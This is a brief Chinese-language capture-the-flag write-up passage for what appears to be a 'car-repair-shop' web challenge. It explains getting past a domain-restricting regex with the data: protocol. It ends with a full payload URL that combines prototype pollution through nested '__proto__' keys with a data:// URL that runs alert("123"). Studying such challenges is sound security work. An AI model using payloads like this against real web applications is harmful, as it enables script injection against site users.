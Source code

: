 虽然这里对url的域名进行了限制不能远程文件包含

但是我们可以利用data协议来绕过正则从而直接执行命令

data协议格式

```
data:[<mime type>][;charset=<charset>][;base64],<encoded data>
```

最后的payload:` http://127.0.0.1/?repair={"key":"🔑","__proto__":{"__proto__":["lol"]}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/asdfsdf/asdf,alert("123")%23.js#BugattiPorsche`

